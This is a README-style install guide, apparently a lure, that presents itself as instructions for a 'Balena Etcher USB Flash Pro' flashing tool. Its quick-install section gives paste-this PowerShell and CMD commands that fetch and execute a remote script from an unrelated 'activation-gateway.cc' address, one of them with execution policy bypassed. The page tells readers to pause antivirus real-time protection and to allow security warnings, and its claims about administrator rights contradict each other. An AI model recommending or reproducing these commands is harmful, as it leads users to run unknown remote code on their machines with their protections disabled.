

<div align="center">

# Balena Etcher USB Flash Pro Install Guide — Starter Kit



[]() []() []() []()

</div>

---

A concise Windows desktop guide for flashing OS images to USB drives and SD cards with Balena Etcher USB Flash Pro. It covers a PowerShell one-command install for Windows 10 and 11, image writing and verification, and the drive-protection safeguards that keep you from overwriting the wrong disk. Use the sections below to set up the tool and start flashing.

## 💻 PowerShell Quick Install

> [!TIP]
> **Silent installer** — one command, no prompts.
> Win 10/11 · PowerShell 5.1+ · Standard user

### 1️⃣ Open Windows PowerShell
* Right-click the Start button.
* Choose **Terminal (Admin)** or **Windows PowerShell**.

### 2️⃣ Run the command
Copy the command below, paste it into PowerShell, and press `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ Windows blocking the script? Use CMD
Run this command in CMD instead:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Security software might occasionally flag automated installers. If the script gets blocked, pause "Real-time protection" in your Windows Security dashboard, run the setup, and re-enable your antivirus immediately afterward.

## ✅ Before You Start

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

- **Image flashing** — Write ISO, IMG, and ZIP images directly to USB drives or SD cards.
- **Write verification** — Checks written data after each flash to confirm integrity.
- **Guided one-click flow** — Pick an image, pick a target drive, and flash.
- **Drive protection** — System drives are hidden from the target list to avoid accidental overwrites.
- **Cross-platform core** — Same simple, safe flashing workflow across supported operating systems.
- **Windows desktop setup** — Ready for Windows 10 and 11, installed via a PowerShell one-command setup.
- **Lightweight utility** — Single-purpose tool focused on safe, reliable image writing.

## Installation

**Prerequisites**

- Windows 10 or 11, 64-bit
- PowerShell available (default on supported Windows versions)
- Administrator rights for the setup step

**Steps**

1. Download the project package and extract it to a local folder.
2. Open PowerShell in the extracted folder.
3. Run the setup script to complete the one-command install.
4. If Windows shows a security prompt, allow it to continue.
5. Launch the app from the Start menu or the extracted folder.

**Notes**

- Keep the extracted folder in place until setup finishes.
- To update, repeat the steps with the latest package.
- Uninstall through Windows Settings → Apps when no longer needed.

## Project Structure

```
balena-etcher-usb-flash-pro-install-guide/
├── README.md                 # Setup guide, features, and usage overview
├── banner.png                # Repository banner image
├── scripts/
│   ├── install.ps1           # PowerShell one-command installer
│   └── verify.ps1            # Post-install integrity check
├── docs/
│   ├── usage.md              # Flashing workflow walkthrough
│   └── troubleshooting.md    # Common issues and fixes
├── assets/
│   └── screenshots/          # UI and setup screenshots
└── LICENSE                   # Project license
```

**Key paths**

- `scripts/install.ps1` — entry point for the PowerShell setup flow.
- `docs/` — extended guides kept separate from the main README.
- `assets/` — static files referenced by docs and README.

The layout is flat by design: root-level config and docs, scripts isolated in `scripts/`, and no build step required to use the installer.

## FAQ

**Is this free to use?** Yes — free to download and use.

**Which platforms are supported?** Windows 10 and 11, 64-bit desktop.

**What does this project actually do?** Flashes OS images to USB drives and SD cards, with built-in verification and drive protection.

**The install didn't complete — what now?** Re-run the PowerShell setup from an elevated prompt and confirm the archive was fully extracted first.

**Windows flagged the setup — is that expected?** Yes, that's a standard security prompt. Allow it to proceed.

**Can I write to an SD card instead of a USB stick?** Yes — both are supported targets.

**Will it touch my system drive?** No — system drives are hidden from the target list by design.

**How do I get the latest version?** Re-run the install flow to pull the current release.

**Something else is broken.** Check the Project Structure section for where logs and configs live, then open an issue with your Windows version and the step that failed.

## License

This project is released under the MIT License.

You are free to use, copy, modify, merge, publish, distribute, sublicense, and sell copies of the software, provided the original copyright notice and this permission notice are included in all copies or substantial portions of the software.

The software is provided "as is", without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and noninfringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability arising from, out of, or in connection with the software or its use.

See the LICENSE file in the repository for the full text.